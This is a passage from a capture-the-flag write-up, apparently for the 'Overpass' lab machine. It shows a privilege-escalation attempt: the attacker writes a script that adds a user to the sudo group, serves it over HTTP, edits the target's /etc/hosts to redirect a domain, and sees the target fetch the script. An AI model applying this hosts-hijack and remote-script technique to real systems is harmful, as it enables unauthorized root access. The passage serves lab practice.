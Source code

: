 ```bash
$ mkdir downloads
$ cd downloads/ && mkdir src
~/downloads$ cd src
~/downloads/src$ echo "usermod -aG sudo james" > buildscript.sh

~/downloads/src$ cat buildscript.sh 
usermod -aG sudo james

~/downloads/src$ cd
$ python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
```

- Modify the `/etc/hosts` file on the target:

```bash
james@overpass-prod:~$ nano /etc/hosts
james@overpass-prod:~$ cat /etc/hosts
127.0.0.1 localhost
127.0.1.1 overpass-prod
10.17.7.91 overpass.thm
# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

### Escalating to root (before adding james to /etc/sudoers)

- We see that our script file is downloaded by the target machine:

```bash
$ python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
10.10.123.199 - - [20/May/2021 01:52:02] "GET /downloads/src/buildscript.sh HTTP/1.1" 200 -
10.10.123.199 - - [20/May/2021 01:53:03] "GET /downloads/src/buildscript.sh HTTP/1.1" 200 -
```

- Now we'll run `sudo -l` to get permissions of james

```bash
james@overpass-prod:~$ sudo -l
[sudo] password for james: 
Sorry, user james may not run sudo on overpass-prod.

james@overpass-prod:~$ id
uid=1001(james) gid=1001(james) groups=1001(james)

james@overpass-prod:~$ groups james
james : james sudo

james@overpass-prod:~$ sudo su
[sudo] password for james: 
james is not in the sudoers file.  This incident will be reported.

james@overpass-prod:~$ cat /etc/sudoers
cat: /etc/sudoers: Permission denied
```
